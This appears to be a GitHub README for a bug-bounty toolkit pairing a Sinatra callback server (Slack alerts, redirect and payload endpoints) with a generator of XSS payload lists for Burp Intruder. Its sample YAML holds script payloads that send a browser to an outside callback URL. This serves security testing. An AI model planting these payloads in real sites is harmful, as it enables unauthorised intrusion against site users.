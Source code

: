 # :boom: Bug bounty in a box

This repository contains all\* that you should need to get up and running to test for bugs against your targets.

\* Ok, literally not _everything_ but it's a good start!

## :vertical_traffic_light: Project Status

This is by no means "production ready"; there are still some server configuration options that need to be explored before this should be run in production.

### :shipit: To-do list

1. Productionize the Sinatra callback server
1. Add more payloads!
1. Add more endpoints!
1. Add "Development" guide

## :running: Quickstart

To get up & hacking, you'll need to:

1. Move the configuration sample: `mv config/application.yml.sample config/application.yml`
1. Edit the `config/application.yml` to your preferences
1. Install the gems: `bundle install`
1. Start the server: `ruby app.rb`
1. Move the payload sample: `mv payloads/xss.yml.sample payloads/xss.yml`
1. Generate the payloads: `ruby generate_payloads.rb --callback=YOUR_SERVER_URL --target=YOUR_TARGET`
1. Use `payloads/xss.txt` in Burp's Intruder (or something similar)
1. Cross your fingers...
1. Profit!

## :information_desk_person: How does this work?

This "bug bounty in a box" has two different components:
1. A payload callback server
1. A payload generator

### :pager: Callback Server

The callback server, written in Ruby & using [Sinatra](http://sinatrarb.com/), currently has the following capabilities:

* Callback: A callback with a payload & target parameter will log the "callback" to a on-server text log as well as send a Slack message to a Slack webhook. (`/callback`)
* Payloads: A payload file of your choice that will contain your callback URL. (`/payload`)
    * Currently supports:
        * JavaScript (`js`)
        * SVG (`svg`)
* Redirect: Redirects to a specified URL in the redirect GET parameter. (`/redirect`)
* Unauthorized: Throws a 401 for non-OPTIONS & non-HEAD requests. Also accepts a content_type parameter to return a specific content type. (`/unauthorized`)

#### Configuring the server

You can configure the server in `config/application.yml`! See below for the different configuration options.

##### Slack

In order to receive Slack callbacks, you'll need to set the appropriate `slack_url`. To generate an incoming webhook for your Slack instance, check out [Slack's Help Center](https://get.slack.help/hc/en-us/articles/115005265063-Incoming-WebHooks-for-Slack).

##### Logging

If you'd like to change either the frequency of the log rotation or the log filenames, check out the configuration file.

### :smiling_imp: Payload Generator

The payload generator uses `.yml` files to generate a `.txt` files that contain a list of payloads that can be used in a tool like Burp Intruder.

#### Running the payload generator

Before running the payload generator, make sure you have some properly formatted `.yml` files in the `payloads` folder! After you've done that, you'll need to run the payload generator with the `--callback` and `--target` flags like such:

```bash
ruby generate_payloads.rb --callback=localhost:4567/callback --target=www.example.com
```

Then, check out the `payloads` folder for the `.txt` file with a list of payloads!

#### Configuring payloads

In order to add a new class of payloads, just create a new `.yml` file with the following:

```yaml
name: XSS
payloads:
  - description: A simple XSS payload
    payload: <script>document.location='CALLBACK_URL'</script>
  - payload: <script>document.location="CALLBACK_URL"</script>
```

The `CALLBACK_URL` will be replaced with whatever is passed in with the `--callback` flag with some added parameters of (1) a callback description & (2) the target.

## :raised_hands: Contributing

Want to contribute? Great! Here's what you do:

1. Fork this repository
1. Push some code to your fork
1. Come back to this repository and open a PR
1. After some review, get that PR merged to master
1. :tada: Thank you for your contribution!!

Feel free to also open an issue with any bugs/comments/requests!
